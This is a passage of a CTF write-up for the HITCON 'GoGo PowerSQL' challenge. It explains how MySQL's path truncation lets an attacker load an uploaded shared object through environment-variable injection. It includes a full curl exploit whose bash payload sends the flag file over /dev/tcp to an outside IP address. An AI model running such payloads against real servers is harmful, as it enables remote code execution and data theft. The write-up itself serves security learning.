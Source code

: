 Until I read [mysql source code](https://github.com/mysql/mysql-server/blob/4869291f7ee258e136ef03f5a50135fe7329ffb9/sql-common/client_plugin.cc#L442):

```cpp
int FN_REFLEN = 512;
char dlpath[FN_REFLEN + 1];
strxnmov(dlpath, sizeof(dlpath) - 1, plugindir, "/", name, ".so", NullS);

char *strxnmov(char *dst, size_t len, const char *src, ...) {
  va_list pvar;
  char *end_of_dst = dst + len;

  va_start(pvar, src);
  while (src != NullS) {
    do {
      if (dst == end_of_dst) goto end;
    } while ((*dst++ = *src++));
    dst--;
    src = va_arg(pvar, char *);
  }
end:
  *dst = 0;
  va_end(pvar);
  return dst;
}
```

Thanks to this, if the filepath is more than 512 bytes, `.so` will get truncated.

```shell
curl -X POST --data-binary @./cmd.so 'http://13.231.38.172/cgi-bin/query?LIBMYSQL_PLUGIN_DIR=//proc/self/fd&LIBMYSQL_PLUGINS=././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././0&CMD=bash%20-c%20%22cat%20/F*>/dev/tcp/133.221.333.123/12345%22'
```

The flag: `hitcon{Env1r0nm3nt 1nj3ct10n r0cks!!!}`

This seems to be the unintended RCE solution (I knew some other teams also developed this exploit.). According to [the author's writeup (Orange)](https://github.com/orangetw/My-CTF-Web-Challenges#gogo-powersql), the intended way is polluting `LOCALDOMAIN` and overwriting mysql host to read arbitrary file from the client using a rogue MySQL server.

Everything is possible if you check the source code.


#### Failed Attempts
- snprintf overwrite: The SQL query is built using snprintf, but we can overwrite the last single quote here. The query will become `select * from users where name like '%aaaaaa%` which leads to SQL error. However, this is useless......
- Using GoAhead 1-day or CVEs: like embedthis/goahead Issue [264](https://github.com/embedthis/goahead/issues/264) and [285](https://github.com/embedthis/goahead/issues/285), but I feel like they are not actually exploitable. (and I don't have any pwn skills)
- brute-force the temp filename to become `foobar.so`: The webserver will create a tempfile for stdio/out. However, the filename, especially the extension, is not controllable. Check the [source code](https://github.com/embedthis/goahead/blob/029ea72c871f1dced9e9a7bd1ff9cc0a003fd4ca/src/osdep.c#L66) here.
- Using existing library `*.so` on the server with environment variables to RCE: The only interesting library is `libmemusage`. Loading this library shows the memory usage of the program. However they don't seem to be useful here.
